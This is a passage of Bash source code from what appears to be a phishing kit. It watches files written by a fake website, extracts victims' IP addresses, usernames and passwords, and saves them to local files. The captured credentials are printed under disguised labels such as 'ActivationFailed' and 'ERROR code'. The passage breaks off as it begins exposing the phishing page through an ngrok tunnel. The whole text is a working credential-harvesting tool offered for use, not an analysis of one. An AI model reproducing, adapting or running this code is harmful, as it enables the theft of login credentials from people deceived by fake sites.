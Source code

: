 ## Get IP address
capture_ip() {
	IP=$(grep -a 'IP:' .server/www/ip.txt | cut -d " " -f2 | tr -d '\r')
	IFS=$'\n'
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} VWebsite's IP : ${BLUE}$IP"
	echo -ne "\n${RED}[${WHITE}-${RED}]${BLUE} Saved in : ${ORANGE}ip.txt"
	cat .server/www/ip.txt >> ip.txt
}

## Get credentials
capture_creds() {
	ACCOUNT=$(grep -o 'Username:.*' .server/www/usernames.txt | cut -d " " -f2)
	PASSWORD=$(grep -o 'Pass:.*' .server/www/usernames.txt | cut -d ":" -f2)
	IFS=$'\n'
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} ActivationFailed : ${BLUE}$ACCOUNT"
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} ERROR code : ${BLUE}$PASSWORD"
	echo -e "\n${RED}[${WHITE}-${RED}]${BLUE} Saved in : ${ORANGE}usernames.dat"
	cat .server/www/usernames.txt >> usernames.dat
	echo -ne "\n${RED}[${WHITE}-${RED}]${ORANGE} Waiting for  Activation, ${BLUE}Ctrl + C ${ORANGE}to exit. "
}

## Print data
capture_data() {
	echo -ne "\n${RED}[${WHITE}-${RED}]${ORANGE} Waiting for Activation, ${BLUE}Ctrl + C ${ORANGE}to exit..."
	while true; do
		if [[ -e ".server/www/ip.txt" ]]; then
			echo -e "\n\n${RED}[${WHITE}-${RED}]${GREEN} Website IP Found !"
			capture_ip
			rm -rf .server/www/ip.txt
		fi
		sleep 0.75
		if [[ -e ".server/www/usernames.txt" ]]; then
			echo -e "\n\n${RED}[${WHITE}-${RED}]${GREEN}  Deactivated !!"
			capture_creds
			rm -rf .server/www/usernames.txt
		fi
		sleep 0.75
	done
}

## Start ngrok
start_ngrok() {
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Initializing... ${GREEN}( ${CYAN}http://$HOST:$PORT ${GREEN})"
	{ sleep 1; setup_site; }
	echo -ne "\n\n${RED}[${WHITE}-${RED}]${GREEN} Launching Rxce Failiure..."

